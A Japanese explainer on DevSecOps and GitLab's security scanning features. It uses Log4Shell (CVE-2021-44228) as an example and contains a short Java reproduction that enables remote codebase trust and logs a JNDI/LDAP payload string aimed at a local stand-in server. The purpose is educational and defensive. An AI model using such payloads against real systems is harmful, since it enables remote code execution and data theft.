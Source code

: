# GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](./img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見された。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用する。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに`「${jndi:ldap://~}」`という文字列が埋め込むことで攻撃が成立する。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

上記の脆弱性が潜在的に全てのライブラリに存在する可能性がある。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの工数が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](./img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](./img/gitlab_cicd_devsecops.png)
![Alt text](./img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
